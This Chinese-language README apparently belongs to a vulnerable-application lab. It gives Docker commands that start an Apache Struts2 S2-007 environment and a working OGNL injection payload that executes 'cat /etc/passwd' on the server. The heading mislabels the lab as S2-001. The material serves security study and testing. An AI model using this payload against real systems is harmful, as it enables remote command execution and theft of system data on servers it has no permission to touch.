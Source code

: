 ## Struts2 S2-001 漏洞环境

### 漏洞信息

 * [S2-007 公告](http://struts.apache.org/docs/s2-007.html)

参考 [http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html](http://rickgray.me/2016/05/06/review-struts2-remote-command-execution-vulnerabilities.html)

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:s_struts2_s2-007
 ```

2. 启动环境

 ```
$ docker run -d -p 80:8080 medicean/vulapps:s_struts2_s2-007
 ```
 > `-p 80:8080` 前面的 80 代表物理机的端口，可随意指定。 

### 使用与利用

访问 `http://你的 IP 地址:端口号/`

#### Exp

命令执行(命令加参数：getRuntime().exec('cat /etc/passwd'))

```
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('cat /etc/passwd').getInputStream())) + '
```

![](s2-007-1.png)

![](s2-007-2.png)
